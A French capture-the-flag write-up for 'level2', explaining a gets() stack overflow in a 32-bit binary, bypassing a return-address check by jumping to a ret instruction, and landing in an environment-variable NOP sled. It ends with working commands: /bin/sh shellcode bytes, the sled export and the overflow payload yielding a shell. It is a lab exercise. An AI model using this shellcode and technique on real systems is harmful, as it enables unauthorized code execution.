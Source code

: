 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'adresse de retour a laquelle la fonction sautera a la fin de l'execution.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette meme fonction. Cela nous permetra de retourner deux fois de la fonction: une premiere fois pour passer la verification, puis une deuxieme fois pour aller a notre shellcode. c'est pourquoi il faut bien ecrire l'adresse du millieu de notre nopsled ensuite.

Le calcul a effectuer pour avoir l'adresse du millieu de notre nopsled est le suivant : 
 - Adresse variable SLEDCODE + (Adresse variable SLEDCODE+ 1 - Addresse variable SLEDCODE) / 2
 
 La commande pour examiner l'environnement: 
 
(gdb)> x/4s *((char**)environ)

Commande a laquelle nous ajoutons +1 jusqu'a trouver l'adresse de la variable SLEDCODE, puis nous cherchons l'adresse de la variable suivante.

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret de la fonction p()] + [Adresse millieu du Nopsled]`.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)`

`python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x10\xf9\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
